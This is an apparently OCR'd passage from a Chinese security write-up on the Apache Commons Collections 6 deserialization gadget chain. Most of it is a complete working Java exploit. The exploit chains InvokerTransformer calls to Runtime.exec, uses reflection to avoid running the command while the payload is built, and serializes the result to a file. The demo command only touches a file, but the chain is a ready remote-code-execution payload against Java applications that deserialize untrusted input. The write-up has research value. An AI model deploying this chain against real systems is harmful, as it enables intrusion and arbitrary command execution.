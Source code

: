 ```java
public int hashCode() {
        Object value = this.getValue();
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
```

不过这里比较奇怪的是 HashMap 就已经有 hashCode 了, 不知道为什么还要再套一层 HashSet. 我自己重新编写的时候是直接用的 HashMap 作为触发点.

exp 如下:
```java
package demo.rmb122;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fake = new Transformer[]{
                new ConstantTransformer("placeholder"),
        };

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(java.lang.Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[]{}}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{}}),
                new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{new String[]{"/bin/touch", "/dev/shm/asdasd_1"}}),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fake);

        HashMap innerMap = new HashMap<String, String>();

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(innerMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "placeholder");

        HashMap hashMap = new HashMap();
        hashMap.put(tiedMapEntry, "zzzz");

        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers"); // 将真正的 transformers 设置, 不然在生成 exp 时就会执行命令, 自己打自己了
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        innerMap.clear(); // 清除 LazyMap 产生的缓存

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
    }
}
```
